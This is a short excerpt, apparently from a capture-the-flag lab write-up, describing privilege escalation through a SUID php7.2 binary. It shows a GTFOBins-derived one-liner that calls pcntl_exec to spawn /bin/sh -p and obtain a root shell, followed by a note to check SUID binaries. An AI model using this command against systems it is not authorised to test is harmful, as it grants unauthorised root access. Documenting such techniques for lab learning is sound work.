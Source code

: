 I searched on gtfobins and found an entry which I modifed into:
```
$ CMD="/bin/sh"
$ php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
#
```
[GTFObins link](https://gtfobins.github.io/gtfobins/php/#suid)

![privilege_escalation](../pictures/photographer1/root.png)


## Journal:

- Read carefully through SUID binaries
